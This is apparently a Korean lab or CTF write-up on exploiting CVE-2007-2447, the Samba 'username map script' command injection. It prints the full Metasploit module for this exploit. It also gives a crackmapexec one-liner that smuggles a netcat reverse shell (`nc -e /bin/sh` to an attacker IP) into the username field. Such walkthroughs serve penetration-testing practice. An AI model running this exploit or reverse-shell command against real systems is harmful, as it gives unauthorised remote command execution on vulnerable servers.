 Exploit
#
`searchsploit`
```
searchsploit <keyword>
```
![image](https://user-images.githubusercontent.com/61821641/152251312-176345ec-e2a7-4c7c-8651-6bf2ec998bf4.png)

```
cat /usr/share/exploitdb/exploits/unix/remote/16320.rb
```
```
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
	Rank = ExcellentRanking

	include Msf::Exploit::Remote::SMB

	# For our customized version of session_setup_ntlmv1
	CONST = Rex::Proto::SMB::Constants
	CRYPT = Rex::Proto::SMB::Crypt

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Samba "username map script" Command Execution',
			'Description'    => %q{
					This module exploits a command execution vulerability in Samba
				versions 3.0.20 through 3.0.25rc3 when using the non-default
				"username map script" configuration option. By specifying a username
				containing shell meta characters, attackers can execute arbitrary
				commands.

				No authentication is needed to exploit this vulnerability since
				this option is used to map usernames prior to authentication!
			},
			'Author'         => [ 'jduck' ],
			'License'        => MSF_LICENSE,
			'Version'        => '$Revision: 10040 $',
			'References'     =>
				[
					[ 'CVE', '2007-2447' ],
					[ 'OSVDB', '34700' ],
					[ 'BID', '23972' ],
					[ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
					[ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
				],
			'Platform'       => ['unix'],
			'Arch'           => ARCH_CMD,
			'Privileged'     => true, # root or nobody user
			'Payload'        =>
				{
					'Space'    => 1024,
					'DisableNops' => true,
					'Compat'      =>
						{
							'PayloadType' => 'cmd',
							# *_perl and *_ruby work if they are installed
							# mileage may vary from system to system..
						}
				},
			'Targets'        =>
				[
					[ "Automatic", { } ]
				],
			'DefaultTarget'  => 0,
			'DisclosureDate' => 'May 14 2007'))

		register_options(
			[
				Opt::RPORT(139)
			], self.class)
	end


	def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end

end                       
```
CVE 번호도 찾을 수 있음

![image](https://user-images.githubusercontent.com/61821641/152253552-4cabe63e-d45f-4b1d-a136-95541e369e3d.png)

![image](https://user-images.githubusercontent.com/61821641/152253655-97482bce-b39d-4c5c-bdd8-89f18a30332e.png)

`reverse shell`
```
crackmapexec smb --shares 10.10.10.3 -u './=`nohup nc -e /bin/sh 10.10.14.17 1234`' -p ''
```
![image](https://user-images.githubusercontent.com/61821641/152256245-4b2256cb-7212-4855-9be6-820114dc8e8c.png)